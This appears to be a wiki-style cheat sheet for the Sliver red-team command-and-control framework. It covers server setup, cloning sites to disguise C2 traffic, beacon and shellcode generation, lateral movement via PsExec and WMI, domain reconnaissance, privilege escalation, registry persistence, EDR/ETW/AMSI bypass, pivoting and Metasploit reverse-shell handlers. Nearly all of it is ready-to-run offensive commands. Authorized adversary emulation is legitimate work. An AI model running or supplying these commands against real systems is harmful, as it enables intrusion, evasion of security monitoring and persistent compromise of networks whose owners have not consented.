

Sliver Wiki
Sliver is an open source cross-platform adversary emulation/red team framework, it can be used by organizations of all sizes to perform security testing. Sliver’s implants support C2 over Mutual TLS (mTLS), WireGuard, HTTP(S), and DNS. Implants are dynamically compiled with unique X.509 certificates signed by a per-instance certificate authority generated when you first run the binary. Sliver server and client support MacOS, Windows, and Linux. Implants are supported on MacOS, Windows, and Linux.
Installation
curl https://sliver.sh/install|sudo bashSliver Service
cat > /etc/systemd/system/sliver.service << EOL
[Unit]
Description=Sliver Server
After=syslog.target network.target
[Service]
Type=simple
Restart=always
RestartSec=120
LimitNOFILE=20000
Environment=LANG=en_US.UTF-8
ExecStart=/opt/sliver/sliver-server_linux daemon -l 0.0.0.0 -p <port>
[Install]
WantedBy=multi-user.target
EOLRestart Deamon & Start Sliver
systemctl daemon-reload
systemctl enable --now sliver Install Letsencrypt
apt install letsencrypt -ySetup Letsencrypt
apt install apache2 -y
certbot certonly --non-interactive --quiet --register-unsafely-without-email --agree-tos -a webroot --webroot-path=/var/www/html -d <domain>Create a New Website
Clone website with wget.
wget --mirror --convert-links --html-extension <target>Add content to HTTP(S) C2 websites to make them look more legit.
websites add-content --website <name> --web-path <path> --content ./public --recursiveTeam Server
Create New Operator
./sliver-server_linux operator -l <teamserver_ip> -p <teamserver_port> -n <username> -s /tmp/<username>.cfgConnect to Team Server
sliver-client import /tmp/<username>.cfg
sliver-clientCreate New Listener
MTLS
mtls -l 443 -L 0.0.0.0 -pHTTPS
https -l 443 -L 0.0.0.0 -pHTTPS Domain
https --domain <domain> --cert /path/cert.pem --key /path/privkey.pem --website <website_name> -pHTTP
http -l 80 -L 0.0.0.0 -pPayload Creation
Generate Shellcode
generate beacon --mtls <ip address>:<port> -f shellcodeGenerate Binary
generate beacon --http <ip address>:<port>Post Exploitation
Beacon
use <beacon_id>Sessions
Switching from Beacon Mode to Session Mode
sessions
use <sessions_id>
interactiveKill All Session
sessions -F -KLateral Movement
SMB Listener
pivots named-pipe --bind <named_pipe>
profiles new --format service --named-pipe <local_ip>/pipe/<named_pipe> svc-smb-beaconPSEXEC Lateral Movement
psexec -d Description -s PAEXEC -p svc-smb-beacon <remote_computer>WMI Lateral Movement
sharp-wmi 'action=exec computername=<remote_computer> command="C:\windows\temp\xxx.exe" result=true'Internal Reconnaissance
Situational Awareness - Local
seatbelt -p C:\\Windows\\System32\\werfault.exe -- "-group=user"Situational Awareness - Domain
sharp-hound-3 -- -c all Privilege Escalation
sharpup -t 120 -p C:\\Windows\\System32\\werfault.exe auditPersistence
sharpersist -- '-t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add'Pivoting
Socks Proxy
interactive
use <session>
socks5 startDefense Evasion
To run this command need to install extension windows-bypass
EDR Bypass
unhook-boofETW Bypass
inject-etw-bypass <pid>AMSI Bypass
inject-amsi-bypass <pid>Session Passing
Session passing is using one payload to spawn another payload.
Install Metasploit
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstallSetup Metasploit Handler
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_https
set lhost <msf_ip>
set lport <msf_port>
exploit -jzInject Metasploit
msf --lhost <msf_ip> --lport <msf_port>Misc
Install Extension From Local
extensions install /path/bofInstall Extension Using Armory
armory install windows-bypass
armory install windows-pivot
armory install situational-awareness
armory install .net-execute
armory install .net-pivot
armory install .net-recon